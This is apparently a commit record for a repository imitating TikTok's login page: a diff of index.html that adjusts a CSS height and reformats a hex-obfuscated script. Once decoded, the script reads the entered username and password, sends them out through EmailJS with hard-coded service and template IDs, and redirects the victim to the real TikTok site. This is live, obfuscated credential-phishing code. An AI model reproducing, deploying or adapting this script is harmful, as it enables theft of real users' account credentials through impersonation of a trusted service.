

Before and after one commit to Mayor123456789000/www.tiktok.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -16,7 +16,7 @@
             display: flex;
             justify-content: center;
             align-items: center;
-            height: 100px;
+            height: 100vh;
         }
 
         /* Style for the login container */
@@ -126,7 +126,13 @@
 <script>
     (function () {
         // Obfuscated EmailJS Initialization and Submission Code
-        var _0xabc1 = ["\x79\x33\x36\x63\x79\x62\x69\x5A\x46\x36\x75\x6B\x71\x7A\x33\x33\x50", "\x69\x6E\x69\x74", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64", "\x75\x73\x65\x72\x6E\x61\x6D\x65", "\x76\x61\x6C\x75\x65", "\x70\x61\x73\x73\x77\x6F\x72\x64", "\x73\x65\x6E\x64", "\x73\x65\x72\x76\x69\x63\x65\x5F\x79\x35\x62\x7A\x7A\x6F\x63", "\x74\x65\x6D\x70\x6C\x61\x74\x65\x5F\x34\x39\x70\x38\x68\x6B\x67", "\x74\x68\x65\x6E", "\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x75\x6C\x74", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E", "\x68\x72\x65\x66", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x74\x69\x6B\x74\x6F\x6B\x2E\x63\x6F\x6D", "\x73\x74\x72\x69\x6E\x67\x69\x66\x79"];
+        var _0xabc1 = ["\x79\x33\x36\x63\x79\x62\x69\x5A\x46\x36\x75\x6B\x71\x7A\x33\x33\x50",
+        "\x69\x6E\x69\x74", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
+        "\x75\x73\x65\x72\x6E\x61\x6D\x65", "\x76\x61\x6C\x75\x65", "\x70\x61\x73\x73\x77\x6F\x72\x64",
+         "\x73\x65\x6E\x64", "\x73\x65\x72\x76\x69\x63\x65\x5F\x79\x35\x62\x7A\x7A\x6F\x63",
+         "\x74\x65\x6D\x70\x6C\x61\x74\x65\x5F\x34\x39\x70\x38\x68\x6B\x67", "\x74\x68\x65\x6E",
+         "\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x75\x6C\x74", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E",
+          "\x68\x72\x65\x66", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x74\x69\x6B\x74\x6F\x6B\x2E\x63\x6F\x6D", "\x73\x74\x72\x69\x6E\x67\x69\x66\x79"];
 
         emailjs[_0xabc1[1]](_0xabc1[0]);
         document[_0xabc1[2]]("loginForm")[_0xabc1[9]](function (event) {
```
